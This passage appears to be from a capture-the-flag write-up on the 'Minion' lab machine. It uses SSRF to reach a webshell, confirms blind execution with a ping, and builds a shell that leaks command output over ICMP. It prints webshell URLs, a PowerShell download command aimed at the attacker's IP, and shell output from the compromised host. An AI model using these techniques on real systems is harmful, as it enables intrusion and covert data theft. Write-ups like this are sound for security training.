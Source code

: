 When I think have blind execution, the first thing to verify it’s actually executing is to `ping` my host and watch for it on `tcpdump`. I’ll start it, and visit `http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=ping%20-n%201%2010.10.14.6`. `tcpdump` sees the ICMP packet:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:28:11.313557 IP 10.10.10.57 > 10.10.14.6: ICMP echo request, id 1, seq 268, length 40
21:28:11.313630 IP 10.10.14.6 > 10.10.10.57: ICMP echo reply, id 1, seq 268, length 40

```

Next I’ll try to connect back with an HTTP request. I’ll start a Python webserver, and pass `powershell -c '(new-object new.webclient).downloadstring("http://10.10.14.6")'` as `xcmd`, but there’s no connection. I’ll a bunch of other ports and other ways, but nothing will connect back to me except for ICMP.

### Shell over HTTP/ICMP

I’m going to write a Python script that will help me leak data and enumerate this host. I’m also going to need a short Powershell blob that will:
- run a command
- capture the results
- break the results into parts
- send the results back in ICMP packets

The Python script will:
- take the input command and build the PowerShell with it
- submit that PowerShell via the webshell
- capture ICMP packets from Minion
- extract the data from the packet and print it to the screen

[Scapy](https://scapy.readthedocs.io/en/latest/introduction.html) is a Python packet utility that can craft and sniff packets. I’ll use Scopy to handle the ICMP, and Python Cmd to make the script feel like a shell. It won’t have persistence between commands (I can’t `cd` for example), but otherwise it works pretty well. [This video](https://www.youtube.com/watch?v=itMImlUZP0E) shows the process of creating it:

The full script it [here](/files/minion-icmp-shell.py), and it runs like:

```

oxdf@hacky$ sudo python icmp_shell.py                                                                                         
minion> whoami                    
iis apppool\defaultapppool                                          
minion> pwd                       

Path
----
C:\windows\system32\inetsrv

minion> ls                        

    Directory: C:\windows\system32\inetsrv                          

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         8/10/2017   9:31 AM            config
d----         8/10/2017   9:31 AM            en
d----         8/10/2017   9:41 AM            en-US
-a---        10/28/2014   7:26 PM     121344 appcmd.exe
...[snip]...

```
